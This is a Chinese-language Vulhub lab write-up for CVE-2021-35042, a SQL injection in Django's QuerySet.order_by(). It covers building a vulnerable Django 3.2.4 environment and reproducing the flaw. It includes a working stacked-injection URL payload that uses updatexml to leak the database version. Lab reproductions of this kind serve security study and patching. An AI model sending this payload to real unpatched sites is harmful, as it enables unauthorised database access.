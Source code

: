 # Django QuerySet.order_by() SQL注入漏洞

# CVE-2021-35042

## 漏洞描述

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控order_by传入的值，在预期列的位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

访问页面`http://your-ip:8000/vuln/`，在GET参数中构造`order=-id`，会得到根据id降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```

![image-20220222171428294](images/202202221714341.png)

再构造GET参数`order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入SQL语句，利用堆叠注入获得信息：

![image-20220222171548110](images/202202221715188.png)

